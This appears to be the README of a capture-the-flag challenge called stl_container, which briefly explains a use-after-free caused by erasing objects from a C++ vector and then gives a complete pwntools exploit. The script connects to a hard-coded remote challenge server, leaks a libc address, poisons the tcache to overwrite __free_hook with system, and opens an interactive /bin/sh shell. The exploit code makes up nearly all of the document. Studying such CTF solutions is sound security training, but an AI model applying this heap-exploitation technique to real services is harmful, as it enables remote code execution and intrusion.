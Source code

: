 ### stl_container
[中文](./README_zh.md) [English](./README.md)

[attachment](./attachment.zip)

[docker](./docker.zip)

This challenge is about a bug in c ++ vector template
When the item stored in the vector is an Object, no matter what index you want to erase will call the destructor of the last Object in the vector
This causes a UAF vulnerability, and then you can use tcache to carry out various attacks

Below is the exp
```
from pwn import *

debug=0

#context.terminal = ['tmux','-x','sh','-c']
#context.terminal = ['tmux', 'splitw', '-h' ]
context.log_level='debug'

if debug:
    p=process('./stl_container')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('134.175.239.26',8848)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def add(ty, content='a'):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('1')
    ru('input data:')
    se(content)
    ru('>>')

def delete(ty, idx=0):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('2')
    if ty <= 2:
        ru('index?')
        sl(str(idx))
    ru('>>')

def show(ty, idx=0):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('3')
    ru('index?\n')
    sl(str(idx))
    ru('data: ')
    data = ru('\n')
    ru('>>')
    return data


ru('>>')

add(1)
add(1)
add(2)
add(2)
add(4)
add(4)
add(3)
add(3)

delete(3)
delete(3)
delete(1)
delete(1)
delete(4)
delete(4)
delete(2)
data = show(2)
libc = u64(data[:6]+'\0\0')
base = libc - 0x3ebca0
free_hook = base + 0x3ed8e8
system = base + 0x4f440

add(3, '/bin/sh\0')
delete(2)
add(4)
add(2)
add(2)
add(3, '/bin/sh\0')
delete(2)
delete(2)
add(1, p64(free_hook))
add(1, p64(system))

sl('3')
ru('show')
sl('2')

print(hex(base))
p.interactive()

```
